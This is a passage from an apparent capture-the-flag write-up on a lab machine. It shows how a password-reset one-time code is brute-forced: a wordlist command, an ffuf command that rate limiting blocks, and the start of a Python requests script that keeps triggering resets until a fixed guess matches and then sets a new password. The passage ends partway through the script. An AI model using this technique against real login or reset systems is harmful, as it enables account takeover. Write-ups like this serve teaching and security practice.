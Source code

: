 Submitting a random code revealed the POST request data:

![Recovery Code Page Form Data](images/recovery-code-page-form-data.png)

The `s` parameter controlled the remaining time before OTP expiration, allowing unlimited brute-force attempts.

## OTP Brute-Force Strategy

A 4-digit numeric wordlist was created:

```shell
seq -w 0000 9999 > codes.txt
```

An initial attempt with `ffuf` failed due to server-side rate limiting:

```shell
ffuf -w codes.txt -X POST -d "recovery_code=FUZZ&s=170" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.198.255:1337/reset_password.php -b "PHPSESSID=<REDACTED: PHP_SESSION_ID>" -fr "Invalid or expired recovery code!" -sf
```

To bypass this, a custom Python script was developed. The script continuously triggered a new password reset request and tested a single guess (`1234`) until it matched the server generated code. When the correct OTP was found, the script send a password reset request using the form fields identified during earlier testing (where response was printed after successful OTP submission), setting the password to `password`.

```python
import requests

url = 'http://10.10.198.255:1337/reset_password.php'
headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1'
}
data = {
    'email': 'tester@hammer.thm'
}

def forgot_password(session):
   session.post(url, data=data, headers=headers)

def not_successful(response):
    return 'Invalid or expired recovery code!' in response.text

def reset_password(session, password):
    data = {
        'new_password': password,
        'confirm_password': password
    }

    return session.post(url, data=data, headers=headers)
```